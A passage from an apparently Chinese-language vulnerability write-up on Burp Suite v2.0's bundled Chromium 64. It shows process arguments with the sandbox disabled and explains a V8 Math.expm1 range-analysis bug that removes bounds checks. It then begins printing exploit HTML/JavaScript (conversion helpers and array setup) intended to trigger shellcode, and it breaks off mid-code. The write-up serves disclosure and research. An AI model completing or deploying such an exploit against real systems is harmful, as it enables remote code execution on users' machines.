 ```
// Chromium主进程
C:\Users\user\AppData\Local\JxBrowser\browsercore-64.0.3282.24.unknown\browsercore32.exe --port=53070 --pid=13208 --dpi-awareness=system-aware --crash-dump-dir=C:\Users\user\AppData\Local\JxBrowser --lang=zh-CN --no-sandbox --disable-xss-auditor --headless --disable-gpu --log-level=2 --proxy-server="socks://127.0.0.1:0" --disable-bundled-ppapi-flash --disable-plugins-discovery --disable-default-apps --disable-extensions --disable-prerender-local-predictor --disable-save-password-bubble --disable-sync --disk-cache-size=0 --incognito --media-cache-size=0 --no-events --disable-settings-window

// Renderer进程
C:\Users\user\AppData\Local\JxBrowser\browsercore-64.0.3282.24.unknown\browsercore32.exe --type=renderer --log-level=2 --no-sandbox --disable-features=LoadingWithMojo,browser-side-navigation --disable-databases --disable-gpu-compositing --service-pipe-token=C06434E20AA8C9230D15FCDFE9C96993 --lang=zh-CN --crash-dump-dir="C:\Users\user\AppData\Local\JxBrowser" --enable-pinch --device-scale-factor=1 --num-raster-threads=1 --enable-gpu-async-worker-context --disable-accelerated-video-decode --service-request-channel-token=C06434E20AA8C9230D15FCDFE9C96993 --renderer-client-id=2 --mojo-platform-channel-handle=2564 /prefetch:1
```

从进程运行参数分析得知，Chromium进程以headless模式运行、关闭了沙箱功能、随机监听一个端口（用途未知）。



## 三、漏洞利用

Chromium组件的历史版本几乎都存在着1Day漏洞风险，特别是在客户端软件一般不会维护升级Chromium版本，且关闭沙箱功能，在没有沙箱防护的情况下漏洞可以无限制利用。

Burp Suite v2.0内置的Chromium版本为64.0.3282.24，该低版本Chromium受到多个历史漏洞影响，可以通过v8引擎漏洞执行shellcode从而获得PC权限。

以Render功能演示，利用v8漏洞触发shellcode打开计算器（此处感谢Sakura提供漏洞利用代码）

这个漏洞没有公开的CVE ID，但其详情可以在[这里](https://bugs.chromium.org/p/chromium/issues/detail?id=880207)找到。<br>
该漏洞的Root Cause是在进行`Math.expm1`的范围分析时，推断出的类型是`Union(PlainNumber, NaN)`，忽略了`Math.expm1(-0)`会返回`-0`的情况，从而导致范围分析错误，导致JIT优化时，错误的将边界检查CheckBounds移除，造成了OOB漏洞。

```
&lt;html&gt;
&lt;head&gt;&lt;/head&gt;
&lt;/body&gt;
&lt;script&gt;
function pwn() `{`
    var f64Arr = new Float64Array(1);
    var u32Arr = new Uint32Array(f64Arr.buffer);

    function f2u(f) `{`
        f64Arr[0] = f;
        return u32Arr;
    `}`

    function u2f(h, l)
    `{`
        u32Arr[0] = l;
        u32Arr[1] = h;
        return f64Arr[0];
    `}`

    function hex(i) `{`
        return "0x" + i.toString(16).padStart(8, "0");
    `}`

    function log(str) `{`
        console.log(str);
        document.body.innerText += str + '\n';
    `}`

    var big_arr = [1.1, 1.2];
    var ab = new ArrayBuffer(0x233);
```